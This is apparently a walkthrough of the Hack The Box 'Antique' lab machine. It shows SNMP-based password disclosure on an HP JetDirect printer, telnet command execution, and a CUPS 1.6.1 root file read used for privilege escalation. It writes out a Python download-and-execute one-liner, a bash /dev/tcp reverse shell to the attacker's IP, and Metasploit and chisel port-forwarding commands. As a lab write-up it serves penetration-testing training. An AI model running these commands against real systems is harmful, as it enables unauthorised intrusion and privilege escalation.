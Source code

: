 Summary
Antique is Linux machine CTF by hack the box. On this box, we will begin with a basic port 
scan and move laterally based on the findings. Then we will enumerate telnet service and 
hunt vulnerabilities present in a particular version. Laterally, we will exploit password 
disclosure vulnerability and obtain plain taxed passwords. Then we will be tasked to gain 
root access where we will need to perform port forwarding then we will read sensitive files 
by exploiting the file read vulnerability present on CUPS 1.6.1 version. In addition, we will 
be exploiting privilege and port forwarding using two different techniques.
Table of content
Initial Access
• Initial Nmap TCP Port Scan
• Telnet Banner Grabbing
• Searching for the exploit
• SNMP Enumeration
• User Shell
• User Flag
Privilege Escalation
• Port Forwarding with Metasploit
• Finding Privilege Escalation Vectors
• Exploit File read Vulnerability
• Root Flag
• Manual Method
• Port forwarding with chisel
• Root flag
Let’s exploit it step by step.
Initial Access
We are going to start the assessment with the normal TCP/IP port scanning.
Initial Nmap TCP Port Scan
We begin with the port scan where we are using nmap to find out which ports are open and 
what services are running in the target host. Nmap is a popular port scanning tool come 
with Kali Linux. To perform a port scan, we have used the –sV flag with full TCP ports 
against the target system which will scan full TCP ports with service version.
Flags features:
-sV: Attempts to determine the service version
-p-: Attempts to scan full ports
nmap -p- -sV 10.129.33.36
From the nmap scan, we have found telnet is open. Telnet is used to make remote 
connections. Many of the telnet version are vulnerable and it is not a secured protocol 
because it does not follow any encryption while communicating and transferring any 
message from one endpoint to another.
Telnet Banner Grabbing
While banner grabbing, it has shown an HP JetDirect and prompt for the password. By its 
name, it looks like a printer service which is managed by telnet protocol. Many times, 
administrators use a common password for the printers but did not work in our case.
Searching for the exploit
When we searched for the exploit related to HP Jet Direct, we found one exploit available 
which has a vulnerability to disclosing the device password. We downloaded the exploit 
and checked the source code we found it works with SNMP protocol. If we get the device 
password, then we can enumerate the device via telnet using credentials. But it is only 
possible if the SNMP protocol is open.
searchsploit HP JetDirect
searchsploit -m 22319
cat 22319.txt
SNMP Enumeration
This time, we are scanning only SNMP Service which is works on its default port 161 and 
follows UDP protocol. From the nmap scan result, we found that SNMP port is open and 
community name is public which is very common. Also, we found it is using SNMP version 1 
which is an insecure version as it does not follow encryption.
Flags features:
-sU: Attempts to scan UDP ports
-sV: Attempts to determine the service version
-p: Attempts to scan against given port
nmap -sU -sV -p 161 10.129.33.36
Next, we are following the exploit we found earlier which gave us some decimal 
values. Here we have given target IP address which is 10.129.33.36.
snmpget -v 1 -c public 10.129.33.36 .1.3.6.1.4.1.11.2.3.9.1.1.13.0
Then, we copied all decimal contents and decoded them using cyberchef. Cyberchef is an 
online tool used to encode and decode. After decoding we got a plain taxed password:
P@ssw0rd@123!!123
Reference link: https://gchq.github.io/CyberChef/
User Shell
With obtained credentials, we logged in to telnet and used the help command (?). There we 
saw , we can use exec command which means we can execute any system commands from 
here.
Then we used the Metasploit script web delivery module which will create a server and 
send the payload to receive the reverse shell once the server started, we will use a python 
reverse shell. Execution of the reverse shell will give us a meterpreter session. To do that 
we have to provide the srvhost IP address and local host IP address and listening port, but 
we can skip lport as Metasploit picks it by itself and its default listening port is 4444. Please 
note, both srvhost and local IP address are the same as our kali machine IP address. More 
information about this module is available here:
https://www.rapid7.com/db/modules/exploit/multi/script/web_delivery/
use multi/script/web_delivery
set lhost 10.10.14.93
set srvhost 10.10.14.93
exploit
python3 -c "import sys;import 
ssl;u=__import__('urllib'+{2:'',3:'.request'}[sys.version_info[0]],fromlist=('urlopen',));r=u.urlopen('http://10.10.14.93:808
0/CzrKiV54o7', context=ssl._create_unverified_context());exec(r.read());"
User Flag
As we can see we have received a meterpreter shell. Now we can grab the user flag 
/var/spool/lpd directory. Also, if the meterpreter session is established then we can 
interact with the session number, here it is 1. Further enumeration of the internal network, 
we found an internet printing protocol is running on its default port 631.
Privilege Escalation
Privilege escalation is the process of exploiting a bug, design flaw or configuration oversight 
in an operating system or software application to gain elevated access to resources that are 
usually protected from an application or user. Privilege escalation can be used by attackers 
to gain access to more system functions and data than intended by the root user. In some 
cases, privilege escalation can allow attackers to control the system completely.
Port Forwarding with Metasploit
To enumerate port 631, we will forward its port to our kali system so it will be accessible 
from there. Here we have the port number we want to access in our kali loopback interface 
and the port number we want to forward to our kali system which is 631.
portfwd add -l 8082 -p 631 -r 127.0.0.1
Finding Privilege Escalation Vectors
Accessing it over browser from our kali, opened a web page where we found CUPS version 
1.6.1.
Exploit File read Vulnerability
The CUPS version 1.6.1 is vulnerable to root file read. We found a Metasploit module that is 
also available there. Then we switched to the module where we provided the current 
session ID, and the file name that we want to read, where we have given root.txt.
use post/multi/escalate/cups_root_file_read
set session 1
set file /root/root.txt
Root flag
After execution of the exploit, it will save the output to /root/.msf4/loot directory. There 
we can use the cat command to view the contents of roo.txt. Now we can submit the root 
flag.
Manual Method
Let’s try with manual way, we will exploit the root file read vulnerability from port 
forwarding. In many exam settings, we are not allowed to use automated tools, so we also 
need to consider working in a manual way as well.
Port forwarding with chisel
For the port forwarding, we need to download the chisel and transfer it to the target 
machine. Chisel is a great tool used for pivoting and it is used by many penetration testers 
during their internal assessments. Make sure to download the amd64 architecture 
only. The download link is given below:
https://github.com/jpillora/chisel
Once its download, we will unzip it and turn on the python server on port 80 to transfer it 
to the target system.
gunzip chisel_1.7.7_linux_amd64.gz
python3 -m http.server 80
We also need to set up a chisel server on our kali system to make them communicate with 
each other. Firstly, we need to give full permission to execute. Next, we will set up a chisel 
server on port 5000.
chmod 777 chisel_1.7.7_linux_amd64.gz
./ chisel_1.7.7_linux_amd64.gz server -p 5000 --reverse
Then we will take a reverse shell after authenticating via telnet with obtained 
password: P@ssw0rd@123!!123. After logging in to telnet we will take reverse shell using 
exec command, here we are using bash one-liner reverse shell. Do not forget to turn on the 
netcat listener on port 1234 before executing the bash one-liner.
On kali terminal 1:
telnet 10.129.33.36
On kali terminal 2:
Nc -nlvp 1234
On kali terminal 1:
exec bash -c 'bash -i >& /dev/tcp/10.10.14.93/1234 0>&1'
Next, we will download chisel in the target systems /tmp folder.
wget 10.10.14.93/chisel_1.7.7_linux_amd64
Once we download the chisel on the target system, we will give full permission so we can 
execute it. Here we need to provide a few details to set up the chisel client such as the 
attacker Ip address (10.10.14.93), attacker side chisel server port (5000), remote port 
(5432) where we want to access service than local host and local internal port (631) that 
we wish to forward.
./chisel_1.7.7_linux_amd64 client 10.10.14.93:5000 R:5432:localhost:631
Once we forward the port then we can access it from kali over the browser on loopback IP 
or localhost on port 5432.
Root Flag
When we checked groups, we found that current users belong to lpadmin group. As cups is 
accessible from the kali browser, here we are changing the error log path to 
/root/root.txt. Once we do that, we can check the root.txt file over the browser. Before 
changing the error log path, we could be able to see only error logs on the browser but after 
changing its path we will be able to read any files we wish to read.
The error logs are stored in the /admin/log directory. Checking the error log over the 
browser, we got root.txt content instead of any error. Now we can submit the root flag.
